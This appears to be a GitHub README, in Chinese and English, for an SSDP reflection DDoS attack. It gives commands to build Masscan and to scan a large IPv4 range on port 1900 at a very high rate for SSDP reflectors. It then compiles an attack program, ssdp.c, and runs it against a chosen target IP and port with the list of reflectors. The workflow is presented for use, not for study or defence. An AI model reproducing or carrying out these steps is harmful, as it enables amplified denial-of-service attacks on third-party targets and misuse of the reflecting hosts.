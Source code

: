 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装 Git
	yum install git

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make
	cd bin

### 扫描 Server
	# 最高速扫描 SSDP 端口保存为 JSON
	# 后续需要解析为单 IP 的 TXT 方式
	./masscan 202.0.0.0/4 -p1900 --rate 1000000 -oJ ip.json

### 攻击 SSDP
	# 安装 C 编译环境
	yum -y install gcc
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>
